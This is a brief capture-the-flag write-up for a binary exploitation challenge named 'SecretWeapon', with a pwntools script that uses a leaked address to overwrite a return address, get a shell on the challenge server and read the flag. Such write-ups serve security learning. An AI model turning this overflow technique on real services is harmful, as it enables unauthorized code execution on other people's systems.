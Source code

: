 ## SecretWeapon

#### Solved by nhanlun

```
The war is comming!!! Could you have me to get the weapons

nc 61.28.237.24 30201

author: pakkunandy
```

```py
from pwn import *

conn = remote("61.28.237.24", 30201)
conn.recvline()
line = conn.recvline().decode().replace("Your current location is townsquare with the address ", "")

address = int(line, 16)
log.info("Leaked: " + hex(address))

conn.sendline(b'A' * 28 + p32(0x112d6 - 0x112ff + address))
conn.interactive()
```

```
$ ls
bin
dev
flag.txt
lib
lib32
lib64
weapon
$ cat flag.txt
HCMUS-CTF{you_know_how_to_compute_location}
```

**Flag:** `HCMUS-CTF{you_know_how_to_compute_location}`
